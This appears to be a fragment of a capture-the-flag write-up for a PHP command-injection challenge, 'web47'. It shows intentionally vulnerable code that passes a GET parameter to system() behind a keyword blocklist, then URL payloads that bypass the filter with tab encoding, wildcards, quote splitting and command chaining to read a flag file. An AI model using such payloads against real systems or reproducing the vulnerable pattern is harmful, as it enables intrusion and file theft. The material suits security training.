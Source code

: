 ```
?c=nl%09fla?????%26%26ls
```

```
?c=nl<fla''g.php||
```

## web47

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

```
?c=nl%09fla?????%26%26ls
```

```
?c=nl<fla''g.php||
```

```
?c=tac%09fla?.php%26%26ls 
```


